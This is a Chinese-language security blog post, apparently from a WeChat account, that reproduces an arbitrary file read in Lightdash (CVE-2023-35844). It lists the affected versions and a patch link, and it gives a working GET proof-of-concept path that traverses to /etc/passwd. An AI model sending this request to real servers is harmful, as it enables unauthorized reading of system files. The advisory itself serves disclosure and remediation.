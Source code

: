 #  Lightdash任意文件读取漏洞(CVE-2023-35844)

弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

#CVE 27 个

#网络安全 30 个

#漏洞 45 个

#POC 4 个

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123321.png)  
 **0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123321.png)  
 **0x01漏洞介绍**  

Lightdash是可视化数据分析工具。

Lightdash 0.510.3之前版本存在安全漏洞。攻击者利用该漏洞可以访问存储在web根文件夹之外的文件和目录。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123321.png)  
 **0x02影响版本**  
  

Lightdash <= 0.510.3

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123324.png)

  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123321.png)  
 **0x03漏洞复现**  
  

1.访问漏洞环境

![]()

2.对漏洞进行复现

 **  POC （GET）**

  * 

    
    
    /api/v1/slack/image/slack-image%2F..%2F..%2F..%2Fetc%2Fpasswd

漏洞复现

         GET请求，响应存在漏洞

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123326.png)

3.afrog测试（漏洞存在）

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123329.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123321.png)  
 **0x04修复建议**  
  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  * 

    
    
    https://github.com/lightdash/lightdash/commit/fcc808c84c2cc3afb343063e32a49440d32a553c

‍

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123331.png)

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123332.png)

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

